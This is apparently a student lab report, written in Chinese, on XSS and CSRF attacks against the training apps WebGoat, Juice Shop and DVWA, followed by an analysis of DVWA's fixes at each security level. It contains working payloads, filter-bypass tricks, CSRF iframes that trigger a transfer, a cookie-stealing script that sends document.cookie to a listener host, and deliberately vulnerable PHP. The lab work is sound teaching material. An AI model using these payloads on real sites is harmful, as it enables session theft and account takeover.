






# Web 应用漏洞攻防

## 实验目的

- 在不同环境下进行xss攻击
- 尝试从源代码层面修复漏洞
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境

- WebGoat
- Juice Shop
- DVWA

## WebGoat环境下进行XSS攻击

### 存储型xss攻击

>实验原理：
>
>1.用户A修改个人信息，并将带有威胁性的js代码作为个人信息发送到server端；
>
>2.server端未加过滤将用户资料存储到服务器； 
>
>3.用户B在好友列表中看到用户A，并查看用户A个人资料；
>
>4.server端取出用户A资料返回到web前端；
>
>5.前端按照预先规则展示，其中包含了用户A带有html标签和js的前端可执行代码，从而在用户B机器上执行了用户A预先设定好的任意威胁性的代码。

* 首先进行登陆操作，可以看到Tom Cat 的密码为tom，输入后即可登录


* 登陆后修改ViewProfile部分，如将其Street部分改为<script>alert('hahaha');</script>


* 此时更新文件，会显示弹窗，由于添加了alert（’XSS‘），则当点击Update Profile或者logout的时候，都会给出alert（）提示，显示hahahaha，说明在更改提交个人信息时，网页执行了个人信息中的脚本代码，根据此漏洞可在他人搜索时执行恶意代码


* 然后我们以Larry的身份进行登录，再进行文件搜索，输入搜索Tom的个人信息


* 可以看到，搜索到Tom的信息时，也执行了Tom植入的代码，显示弹窗hahahaha


### 反射型xss攻击

> 实验原理：在输入框中输入脚本，而浏览器又不会对用户输入做格式验证或任何数据处理，因此就会导致浏览器执行非法代码


* 直接在 Enter your three digit access code:  中输入下行恶意代码，浏览器执行非法代码后即显示弹窗

```javascript
<script>alert('hahahaha')</script>
```


* **CSRF Prompt By-Pass**

> 实验原理：在被攻击者打开一个网页（攻击者修改过）的时候，加载页面的时候，会自动向后台发请求。慈湖要求向新闻组发送email包含恶意请求，首先转账，然后请求提示确认


* 查看src及menu参数，对发送信息进行修改

```javascript
<HR>
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=5000"/>
<br>
<HR>
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=CONFIRM"/>
<HR>
```

页面在加载第一个frame时，发送转账5000的请求：

```javascript
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=5000"/>
```

加载第二个iframe时，自动访问网址，显示一个确认按钮，来确认转账成功。 

```javascript
<iframe src="attack?Screen=1471017872&menu=900&transferFunds=CONFIRM"/>
```


* 结果如下，可以看到转账确认按钮


## Juice Shop环境下进行XSS攻击

*  **Client-side XSS Protection**：Perform a *persisted* XSS attack with `   <iframe src="javascript:alert(`xss`)">    ` bypassing a *client-side* security mechanism.  

  绕过客户端安全机制执行持久的XSS攻击

存储型的xss攻击则需访问数据库，发现网站在注册时的账号信息可写入数据库


使用burp suite进行抓包拦截，并将email部分修改为如下代码

```javascript
<script>alert("XSS")</script>
```


使用刚刚sql注入实验发现的漏洞，登录管理员账号，进入http://localhost:3000/#/administration，发现在用户信息中存在xss攻击语句，说明存储成功（推测可能是因为使用docker搭建环境无法显示xss弹窗）

```sql
<script>alert("XSS")</script>
```


## 使用DVWA进行XSS攻击

### 反射型xss攻击

* 查看源码，可以看到，在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容


测试代码：

```java
<script> alert('xss')</script> //验证弹窗
<script>location='https://www.baidu.com'</script>  //重定向到百度
```

测试截图：





#### 获取cookie实验

* **实验原理**

>1. 黑客首先向服务器发送js脚本
>2. 服务器将含有js脚本的页面发给黑客
>3. 黑客将js脚本的页面的url发送给被攻击方
>4. 黑客获取被攻击方的cookie

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`，如图



在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```



在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```


### 存储型xss攻击

> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

---

测试代码：

```html
<a href=http://10.0.2.6>登录</a>；//点击 ' 登录 '，直接跳转到http://10.0.2.6页面（自己搭建的服务器界面）
```




* 注：每次实验后都需重置数据库

#### 获取cookie实验

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```


在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```




## 尝试从源代码层面修复漏洞

此处通过观察DVWA网站源码来观察如何一步一步进行漏洞修复

### 反射型xss攻击防护（Reflected XSS）

* 在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容,极易被攻击

```js
low Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

* 使用str_replace函数将输入中的<script>替换成空，把script脚本当做字符串来处理，但仍可以将将<script>可以写成<Script>，大小写混淆绕过

例如

```js
<Script>alert(‘xss’)</script>
```

或者嵌入绕过，可以将script嵌入到<script>中

`<scr<script>ipt>`

```js
<scr<script>ipt>alert('XSS1')</script> 
```

```js
Medium Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效，即只要遇到与scipt有关的字符都进行替换为空，输入不在含有script；（正则表达式中i表示不区分大小写）

仅预防script代码插入，可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码

```js
<body οnlοad=alert('XSS2')>
<a href=http://10.0.2.6>登录</a>
```

```js
High Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 当安全级别为impossible，使用htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，防止浏览器将其作为HTML元素（恶意代码）；不能实现反射型XSS攻击；

```js
Impossible Reflected XSS Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 存储型xss攻击防护（Stored XSS）

* 对输入的name参数和message参数并没有做XSS方面的过滤与检查，并且数据存储在数据库中，所以存在明显的存储型XSS漏洞；

```js
Low Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，使用str_replace函数将输入中的<script>删除，把script脚本当做字符串来处理，仍然存在存储型的XSS。

```js
<Script>alert(‘XSS’)</script>    #可以在name中将<script>可以写成<Script>，大小写混淆绕过
```

```js
Medium Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，High级别的代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效；（正则表达式中i表示不区分大小写）虽然在name参数中无法使用<script>标签注入XSS代码，但是可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码。

  ```html
  <body οnlοad=alert('XSS2')>
  <a href=http://10.0.2.6>登录</a>
  ```

```js

High Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 当安全级别为impossible时，对name、message参数均使用了htmlspecialchars函数进行编码，因此无法再通过name、message参数注入XSS代码，不能实现存储型XSS攻击。

```js
Impossible Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

## 遇到的问题：

* burpsuite无法抓到包，发现使用了本地程序不适用代理，删除即可


* 无法显示xss攻击结果，后来在积分板界面发现这一条，推测xss攻击无法在docker上实现

```
Perform a reflected XSS attack with <iframe src="javascript:alert(`xss`)">. (This challenge is not available on Docker!)
```

## 参考资料

1.[kali之DVWA](https://www.cnblogs.com/aeolian/p/11023238.html)

2.[**Kali渗透测试之DVWA系列4——反射型XSS(跨站脚本攻击)**](https://blog.csdn.net/weixin_43625577/article/details/89917893)

3.[WebGoat:Concurrency](http://blog.chinaunix.net/uid-26235486-id-3334520.html)

4.[**黑客游戏| Owasp juice shop (一)** ](https://www.freebuf.com/column/155374.html)